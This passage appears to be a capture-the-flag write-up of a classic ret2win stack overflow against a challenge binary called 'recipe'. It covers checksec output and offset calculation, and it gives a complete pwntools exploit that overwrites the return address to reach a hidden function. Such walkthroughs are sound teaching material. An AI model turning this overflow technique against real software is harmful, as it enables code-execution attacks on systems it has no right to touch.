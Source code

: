 If we overwrite the return address to point to this function, weâ€™ll get the flag.

## Static Binary Analysis

Before writing an exploit, I checked protections:
```
$ checksec recipe
Arch:       amd64-64-little
RELRO:      No RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
```

- NX enabled â†' we canâ€™t inject shellcode, but we can reuse code (return-to-function).
- No PIE â†' function addresses donâ€™t change between runs.
- No canary â†' no stack protections to bypass.

This screamed classic ret2win.

## Finding the Offset

From the source:

- Buffer size: 16 bytes
- Saved RBP: 8 bytes
- Return address overwrite begins after 16 + 8 = 24 bytes.

## Writing the Exploit

Hereâ€™s the final Python exploit with pwntools:
```python
#!/usr/bin/env python3
from pwn import *
import argparse

RECIPE_BUFFER_SIZE = 16
RBP_SIZE = 8
PROMPT = "Please enter the name of the recipe you want to retrieve:"

parser = argparse.ArgumentParser()
parser.add_argument("--remote", help="remote target in form host:port", default=None)
args = parser.parse_args()

e = ELF("./recipe")

if args.remote:
    host, port = args.remote.split(":")
    port = int(port)
    io = remote(host, port, ssl=True)
    SECRET_ADDRESS = e.symbols['secret_dough_recipe']
else:
    io = e.process()
    SECRET_ADDRESS = e.symbols['secret_dough_recipe']

log.info(f"Using secret address: {hex(SECRET_ADDRESS)}")

payload = b"A" * RECIPE_BUFFER_SIZE
payload += b"B" * RBP_SIZE
payload += p64(SECRET_ADDRESS)

io.recvuntil(PROMPT.encode())
io.sendline(payload)
io.interactive()
```